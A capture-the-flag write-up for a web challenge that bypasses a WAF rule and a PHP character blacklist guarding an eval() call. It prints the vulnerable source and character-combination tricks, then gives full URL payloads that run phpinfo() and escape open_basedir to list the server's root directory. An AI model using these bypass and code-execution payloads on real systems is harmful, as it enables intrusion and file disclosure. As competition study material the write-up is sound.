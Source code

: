 W3F
---

challenge link: http://web2.q21.ctfsecurinets.com:8081/


waf-config file


![image](https://user-images.githubusercontent.com/61080375/112029098-e2038400-8b5e-11eb-97dd-fd1bfacec876.png)

* we can by pass that ``!@within 1`` by putting space("%20" or "+") in fron of the ``cmd`` parameter 


http://web2.q21.ctfsecurinets.com:8081/?+cmd=123


source code:

```php
<?php

error_reporting(0);
function waf($str){
     for($i=0;$i<=strlen($str)-1;$i++){
        if ((ord($str[$i])<32) or (ord($str[$i])>126)){
            header("HTTP/1.1 403 Forbidden" );
                        exit;
        }
     }
     $blacklist = ['[A-Zb-df-km-uw-z]',' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^','~'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        header("HTTP/1.1 403 Forbidden" );
                        exit;
                        //die('You are forbidden!');
                }
        }
}
if(!isset($_GET['cmd'])){
    show_source(__FILE__);
}else{
        $str = $_GET['cmd'];
       
        waf($str);
        eval('echo '.$str.';');
}
?>

```

**char allowed**:``a e v l 1 2 3 4 5 6 7 8 9 0 @ ! # % ^ & * | ( ) _``

* we can get more charcters by combination of these charcters

![image](https://user-images.githubusercontent.com/61080375/112035180-4f1a1800-8b65-11eb-81b1-bed2baf24019.png)



```
(l|v)           =>  `
(v|e)           =>   w
((2).(2){0}|a)  =>   s
((2).(2)|(9).(9))  =>  ;;

```
```
(((((4)._%26e_).((((9999**999999).a)%7B2%7D)%7C((0%2F0).a)%7B1%7D).((_)%26e).(((0).a%7C(e%26l))%26((_))).(((((2).a)%7Ca)%7C((8).aa))%26((_).aa)).((((1).(2))%7Cl.(9))%26(_))))).((9).a%26(a%7Cl)).((2).(2)%7C(9).(9))  => $_GET[aa]);;  

```

* we can pass ``eval`` also ,so we can exicute php code

* we can try ``eval(phpinfo());``

```css
http://web2.q21.ctfsecurinets.com:8081/?%20cmd=eval((((((1/0).(1)){0})%26(((1/0).(1)){2})|(0).(0){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|(0).(0){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(1).(1){0}%26((0/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1}|(1).(1){0}%26((0/0).(0)){1})).((((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0})).((((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(1).(1){0}%26((0/0).(0)){1})).(((0).(0){0}|(8).(8){0}%26((1/0).(0)){0}|(2).(2){0}%26((1/0).(0)){1}|(1).(1){0}%26((0/0).(0)){1})))
```

![image](https://user-images.githubusercontent.com/61080375/112036748-05cac800-8b67-11eb-8e5d-6336baf0a8ad.png)

![image](https://user-images.githubusercontent.com/61080375/112036858-1f6c0f80-8b67-11eb-9d9e-9edc062715d2.png)


* we can see alot of functions are disabled in that


* we found that ``ini_set()``  is not disabled
* there is a ``/images`` dir in 

payload:**ini_set('display_errors', 1);ini_set('display_startup_errors', 1);error_reporting(E_ALL);chdir('images');ini_set('open_basedir', '..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir', '/');new Finfo(0,"/");**


```css
http://web2.q21.ctfsecurinets.com:8081/?+cmd=eval(((ev).(al).((8).a%26(l)).((((4)._%26e_).((((9999**999999).a){2})|((0%2F0).a){1}).((_)%26e).(((0).a|(e%26l))%26((_))).(((((2).a)|a)|((8).aa))%26((_).aa)).((((1).(2))|l.(9))%26(_))))).((9).a%26(a|l)).((2).(2)|(9).(9)))&aa=ini_set(%27display_errors%27,%201);ini_set(%27display_startup_errors%27,%201);error_reporting(E_ALL);chdir(%27images%27);ini_set(%27open_basedir%27,%20%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);ini_set(%27open_basedir%27,%20%27/%27);new%20Finfo(0,%22/%22);
```


![image](https://user-images.githubusercontent.com/61080375/112038804-4f1c1700-8b69-11eb-90e0-9e368ad0b74f.png)


